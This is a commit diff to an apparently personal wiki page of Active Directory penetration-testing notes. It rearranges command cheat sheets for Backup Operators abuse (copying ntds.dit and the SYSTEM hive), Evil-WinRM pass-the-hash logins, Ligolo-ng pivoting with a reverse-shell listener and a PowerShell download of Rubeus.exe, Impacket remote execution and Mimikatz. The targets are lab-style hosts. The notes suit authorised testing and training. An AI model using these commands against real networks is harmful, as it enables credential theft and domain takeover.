

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 1400 px high, scrolled down 7707 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -249,88 +246,51 @@ pypykatz lsa minidump lsass.DMP
 ```
 
 ## Abusing Backup Operators Group
+
+**Requires:** User account that is member of the Backup Operators group
+**Achieves:** Extract ntds.dit, dump hashes to escalate privileges to Domain Admin
+
 **[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)**
+
 ```
 whoami /all (SeBackupPrivilege Enabled)
 
 diskshadow /s backup.txt
 robocopy /b E:\Windows\ntds . ntds.dit (NTDS file)
 reg save hklm\system c:\temp\system.bak (System Hive keys)
+```
+**Additional Resources**
+  -  [Windows Privilege Escalation with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58)
 
-## Other Resources
-https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58
-```
 
 -----------------------------------------------------------------------
 
-# Active Directory Tools
-**[NetExec](https://github.com/Pennyw0rth/NetExec)**
+# Lateral Movement
+
+## WinRM
+**[Evil-WinRM - ultimate WinRM shell for hacking/pentesting](https://github.com/Hackplayers/evil-winrm)**
+
 ```
-curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh (install Rust)
-source $HOME/.cargo/env
-pipx install git+https://github.com/Pennyw0rth/NetExec
+gem install evil-winrm
+evil-winrm -i <IP> -u <username> -p <password>
+evil-winrm -i <IP> -u <username> -H <ntlm hash>
+evil-winrm -i <IP> -u <username> -k
+
+## Run Powershell Commands
+whoami
+ipconfig
+Get-Process
+
+## Upload and Download Files
+upload /local/path/to/file /remote/path
+download /remote/path/to/file /local/path
+
+## Run Powershell Scripts
+upload /local/path/to/script.ps1 /remote/path/script.ps1
+powershell -File /remote/path/script.ps1
 ```
 
-**[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)**
-```
-. .\powerview.ps1
-Import-Module C:\Temp\PowerView.ps1
-```
-
-**NSE**
-```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```
-
-**SMB**
-Enum4Linux
-SMBMap
-smbclient
-smbclient.py (Impacket)
-**[NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)**
-**[SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)**
-
-**WinRM**
-**[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)**
-```
-evil-winrm -i 10.10.10.192 -u "svc_backup" -H "9658d1d1dcd9250115e2205d9f48400d"
-```
-
-**[Impacket]()**
-```
-python3 -m pipx install impacket
-  - **PSExec**
-    - Shell access via SMB shares (Pass the Hash)
-  - **GetNPUsers**
-    - Kerberos Pre-authentication disabled (ASREPRoasting)
-
-smbclient.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb -debug
-wmiexec.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb
-psexec.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb
-```
-
-**[Network Pivoting - Ligolo-ng](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)**
-
-```
-./agent -connect 10.10.14.5:443 -ignore-cert
-sudo ./proxy -selfcert -laddr 0.0.0.0:443 -v
-session
-start
-sudo ip route add 192.168.110.0/24 dev ligolo
-
-listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444 (open port on DMZ machine for reverse shell)
-
-powershell -Command "Invoke-WebRequest -Uri 'http://192.168.110.51:1235/Rubeus.exe' -OutFile 'Rubeus.exe'"
-```
-**Additional Resources**
-  - [Ligolo Guide for pivoting](https://systemweakness.com/pivoting-for-newbies-with-ligolo-ng-82f13040aa39)
-  - [Advanced pivoting guide](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)
-
-**[Rubeus for Windows](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)**
-
-**[Pywerview - Linux AD Enumeration](https://github.com/the-useless-one/pywerview)**
-
-**[Empire - Post-exploitation Framework](https://github.com/BC-SECURITY/Empire)**
-
-
+## Mimikatz
 **[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)**
 
 ```
@@ -392,8 +352,71 @@ mimikatz vault::list
   - [Mimikatz Post Exploitation Basics](https://infosecwriteups.com/post-exploitation-basics-in-active-directory-enviorment-by-hashar-mujahid-d46880974f87)
   - [Mimikatz Guide Reference](https://adsecurity.org/?page_id=1821)
 
+## Network Pivoting via Ligolo-ng
+**[Network Pivoting - Ligolo-ng](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)**
 
-**[Wordlists](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/#hashcat-install)**
+```
+./agent -connect 10.10.14.5:443 -ignore-cert
+sudo ./proxy -selfcert -laddr 0.0.0.0:443 -v
+session
+start
+sudo ip route add 192.168.110.0/24 dev ligolo
+
+listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444 (open port on DMZ machine for reverse shell)
+
+powershell -Command "Invoke-WebRequest -Uri 'http://192.168.110.51:1235/Rubeus.exe' -OutFile 'Rubeus.exe'"
+```
+
+**Additional Resources**
+  - [Ligolo Guide for pivoting](https://systemweakness.com/pivoting-for-newbies-with-ligolo-ng-82f13040aa39)
+  - [Advanced pivoting guide](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)
+
+-----------------------------------------------------------------------
+
+# Active Directory Tools
+**[NetExec](https://github.com/Pennyw0rth/NetExec)**
+```
+curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh (install Rust)
+source $HOME/.cargo/env
+pipx install git+https://github.com/Pennyw0rth/NetExec
+```
+
+**[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)**
+```
+. .\powerview.ps1
+Import-Module C:\Temp\PowerView.ps1
+```
+
+**NSE**
+```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```
+
+**SMB**
+Enum4Linux
+SMBMap
+smbclient
+smbclient.py (Impacket)
+**[NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)**
+**[SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)**
+
+**[Impacket]()**
+```
+python3 -m pipx install impacket
+  - **PSExec**
+    - Shell access via SMB shares (Pass the Hash)
+  - **GetNPUsers**
+    - Kerberos Pre-authentication disabled (ASREPRoasting)
+
+smbclient.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb -debug
+wmiexec.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb
+psexec.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb
+```
+
+**[Rubeus for Windows](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)**
+
+**[Pywerview - Linux AD Enumeration](https://github.com/the-useless-one/pywerview)**
+
+**[Empire - Post-exploitation Framework](https://github.com/BC-SECURITY/Empire)**
+
 
 ## Resources
  - [The Hacker Recipes](https://www.thehacker.recipes/)
````
Also changed, not shown: other parts of _wiki/003-active-directory-penetration-testing.md (+1 -4 lines).
